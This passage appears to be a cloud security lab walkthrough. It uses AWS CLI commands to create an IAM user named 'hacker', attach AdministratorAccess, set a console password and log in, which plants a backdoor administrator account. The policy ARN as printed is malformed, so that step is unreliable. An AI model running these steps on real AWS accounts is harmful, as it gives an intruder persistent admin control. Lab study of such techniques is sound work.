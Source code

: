 Open a new terminal and check for AWS account id with the help of the below-mentioned command

Command:

```bash
aws sts get-caller-identity
```
![](https://user-images.githubusercontent.com/65826354/179529067-6026dab3-d261-4c22-8d01-47504d040a08.png)

Now, let's create a new user

Run-

Command:

```bash
aws iam create-user --user-name hacker
```

![](https://user-images.githubusercontent.com/65826354/179529077-a6edb84a-cd0c-4e56-8e9f-1614c6e96b32.png)

We successfully created a new user named, "hacker".

Now, attach the AdministratorAccess policy to "hacker" user and provide administrator privileges.

Run-

Command:

```bash
aws iam attach-user-policy --user-name hacker --policy-arn arn:aws:iam:policy/AdministratorAccess
```

Let's create a login profile for "hacker" user with the help of the following command.

Command:

```bash
aws iam create-login-profile --user-name hacker --password HackerPassword@123
```

![](https://user-images.githubusercontent.com/65826354/179529081-c182d3a3-3c52-4778-a688-16f7baf0d8b7.png)

Login profile created successfully!

Let's try to login into the aws account using "hacker" user's credentials. Copy the credentials from the above step or refer to the images given below.

![](https://user-images.githubusercontent.com/65826354/179529090-e478ea16-1c65-4358-84a5-30584ab00595.png)

![](https://user-images.githubusercontent.com/65826354/179529094-d954f864-45f0-4d00-bbf7-5f09fa36d141.png)

![](https://user-images.githubusercontent.com/65826354/179529102-b959e05b-81f5-4cdb-95a2-c78904776a7e.png)

**Voila! We successfully logged in as a "hacker" user with administrative access.**
